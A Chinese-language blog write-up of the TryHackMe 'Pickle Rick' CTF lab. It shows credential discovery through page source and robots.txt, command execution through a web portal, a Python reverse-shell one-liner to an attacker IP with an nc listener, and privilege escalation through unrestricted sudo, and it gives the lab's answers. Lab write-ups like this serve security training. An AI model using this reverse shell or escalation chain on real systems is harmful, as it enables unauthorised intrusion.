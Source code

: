 ```yaml
---
title: Tryhackme-easy-Pickle Rick
slug: tryhackmeeasypickle-rick-1vlraf
url: /post/tryhackmeeasypickle-rick-1vlraf.html
date: '2024-08-14 14:08:26+08:00'
lastmod: '2025-05-07 21:28:57+08:00'
toc: true
categories:
  - penetration
isCJKLanguage: true
---
```

<!--more-->
# Tryhackme-easy-Pickle Rick

# 前言

一个简单靶场，kali环境有些小问题，这次是windows下做的

A Rick and Morty CTF. Help turn Rick back into a human!

# 过程

首先给出一个页面

```plain
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

很明显提示说使用burpsuite

通过抓包得到一条提示信息

```plain
Note to self, remember username!
Username: R1ckRul3s
```

先使用扫描存在的端口，发现存在了两个开放端口

```plain
2024/2/23 23:27:09    开始扫描...
10.10.242.108:22
10.10.242.108:80
```

然后来扫一下目录

```plain
login.php
robots.txt
```

在robots.txt下发现存在字符串，当作密码

```plain
Wubbalubbadubdub
```

login.php尝试登录，登陆后成功跳转portal.php

存在一个可能是命令执行的窗口，ls后查看

```plain
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

访问Sup3rS3cretPickl3Ingred.txt，得到第一个flag

在clue.txt发现一段话

```plain
Look around the file system for the other ingredient.
```

denied.php禁止访问

开始反弹shell

```plain
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.71.162 ",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```plain
nc -nlvp 1234
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-RbVJ34EyWQNHPaT-20250507212942-z1wnbo1.png)​

成功反弹后进行提权操作

```plain
sudo -l
```

发现当前甚至没有设置基础密码

```plain
Matching Defaults entries for www-data on ip-10-10-242-108.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-108.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```plain
sudo su
```

成功提权

然后查找相应的两个flag

```plain
cat "second ingredients"
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-tmTeXNpjWKaqfEy-20250507212942-3m2rzro.png)​

```plain
cat ./3rd.txt
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-H7wTqBGDkIljEb8-20250507212943-hhsc68q.png)​

‍
